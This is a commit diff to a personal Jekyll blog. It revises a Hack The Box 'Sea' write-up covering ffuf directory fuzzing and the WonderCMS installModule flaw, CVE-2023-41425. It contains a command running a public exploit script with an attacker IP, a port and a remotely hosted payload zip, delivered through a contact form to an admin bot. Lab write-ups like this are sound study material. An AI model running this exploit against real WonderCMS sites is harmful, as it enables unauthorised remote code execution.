

Before and after one commit to Z4kr-Sec/Z4kr-Sec.github.io, a Jekyll site: the page built from _posts/HTB Writeup/2025-01-22-Sea-HTB.md, in a window 1280 px wide and 900 px high, scrolled down 4440 px. Shown: the whole window, without its empty margins (0-1037 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
final changes to sea

````diff
--- a/_posts/HTB Writeup/2025-01-22-Sea-HTB.md
+++ b/_posts/HTB Writeup/2025-01-22-Sea-HTB.md
@@ -55,7 +55,7 @@
 
 ## Fuzzing the target.
 ### Identifying folders.
-I began fuzzing the web server to identify directories using *ffuf*, after some results I was able to identify some directiries that were giving back status code 301 (forbidden).
+I began fuzzing the web server to identify directories using *ffuf*. After getting results I was able to identify some directories that were giving back status code 301 (forbidden).
 
 ```bash
 ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://sea.htb/FUZZ -c -fc 403
@@ -74,7 +74,7 @@
 ```
 ![Alt Text](/assets/images/HTB/Sea/sea3.png)
 
-From this result what most called my attention was the folder *bike* which was also giving me a 301 status. I continue looking for information so I decide keep fuzzing and digging deeper for more information.
+After reviewing these results the folder *bike*, was the one that caught my attention (eventhough it was giving 301 status). I decided to keep enumetating, fuzzing and digging deeper for more information.
 
 ![Alt Text](/assets/images/HTB/Sea/sea4.png)
 
@@ -98,18 +98,17 @@
 
 This vulnerability affects **WonderCMS** versions **3.2.0 through 3.4.2**. The vulnerability lies in the installModule component of WonderCMS, where user inputs are not adequately sanitized before being processed.
 
-To make the exploit work, the malicious user should either be authenticated or make authenticated user execute some malicious code.
+To make the exploit work the attacker should either be authentificated or somehow make an authentificated usr to execute the code. In the case of the machine there ir a bot that triggers this action.
 
 # Exploitation
-Using a Python exploit script from [GitHub](https://github.com/insomnia-jacob/CVE-2023-41425),the script required specifying the URL,Attacker IP and attaker port, and the path to the payload zip file:
+
+Upon using a python exploit script from [GitHub](https://github.com/insomnia-jacob/CVE-2023-41425),the script required specifying the URL, attacker IP, attacker port, and the path to the payload zip file:
 
 ```bash
 python3 exploit.py -u http://sea.htb/loginURL -i 10.10.14.4 -p 1234 -r http://10.10.14.4/main.zip
 ```
 
 Once the payload was prepared, I used the website's contact form to deliver the malicious link to the admin, triggering the exploit.
-
-INSERT NEW PICTURE DEMOSTRATING THE URL PATH PRIV ESC COMMAND :)
 
 ![Alt Text](/assets/images/HTB/Sea/sea7.png)
 
````
Also changed, not shown: other parts of _posts/HTB Writeup/2025-01-22-Sea-HTB.md (+1 -4 lines).
